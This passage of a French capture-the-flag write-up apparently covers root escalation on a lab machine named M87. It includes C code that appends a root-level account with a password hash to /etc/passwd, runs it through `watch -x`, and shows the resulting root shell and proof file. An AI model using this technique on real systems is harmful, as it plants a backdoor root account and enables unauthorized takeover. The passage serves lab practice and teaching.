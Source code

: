 ```
  -x, --exec
    Pass command to exec(2) instead of sh -c which reduces the need to use extra quoting to get the desired effect.
```

Avec cette option `-x` ça fonctionne, `watch -x id` donne le résultat `uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)`.

Le problème de l'option `-x` c'est que l'on ne peut pas passer de paramètres à la commande à exécuter.

J'ai donc écrit un programme qui rajoutera une ligne à `/etc/passwd` :

```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>

int main(void) {
  FILE * fd;
  fd = fopen("/etc/passwd", "a");
  fputs("devloop:ueqwOCnSGdsuM:0:0::/root:/bin/sh\n", fd);
  fclose(fd);
}
```

Ça fonctionne :

```console
www-data@M87:/tmp$ watch -x ./add_user 
www-data@M87:/tmp$ tail /etc/passwd
avahi-autoipd:x:105:112:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
charlotte:x:1000:1000:charlotte,,,:/home/charlotte:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:107:115:MySQL Server,,,:/nonexistent:/bin/false
dnsmasq:x:108:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
Debian-exim:x:109:116::/var/spool/exim4:/usr/sbin/nologin
cockpit-ws:x:110:117::/nonexisting:/usr/sbin/nologin
cockpit-wsinstance:x:111:118::/nonexisting:/usr/sbin/nologin
devloop:ueqwOCnSGdsuM:0:0::/root:/bin/sh
www-data@M87:/tmp$ su devloop
Password: 
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
proof.txt
# cat proof.txt


MMMMMMMM               MMMMMMMM     888888888     77777777777777777777
M:::::::M             M:::::::M   88:::::::::88   7::::::::::::::::::7
M::::::::M           M::::::::M 88:::::::::::::88 7::::::::::::::::::7
M:::::::::M         M:::::::::M8::::::88888::::::8777777777777:::::::7
M::::::::::M       M::::::::::M8:::::8     8:::::8           7::::::7
M:::::::::::M     M:::::::::::M8:::::8     8:::::8          7::::::7
M:::::::M::::M   M::::M:::::::M 8:::::88888:::::8          7::::::7
M::::::M M::::M M::::M M::::::M  8:::::::::::::8          7::::::7
M::::::M  M::::M::::M  M::::::M 8:::::88888:::::8        7::::::7
M::::::M   M:::::::M   M::::::M8:::::8     8:::::8      7::::::7
M::::::M    M:::::M    M::::::M8:::::8     8:::::8     7::::::7
M::::::M     MMMMM     M::::::M8:::::8     8:::::8    7::::::7
```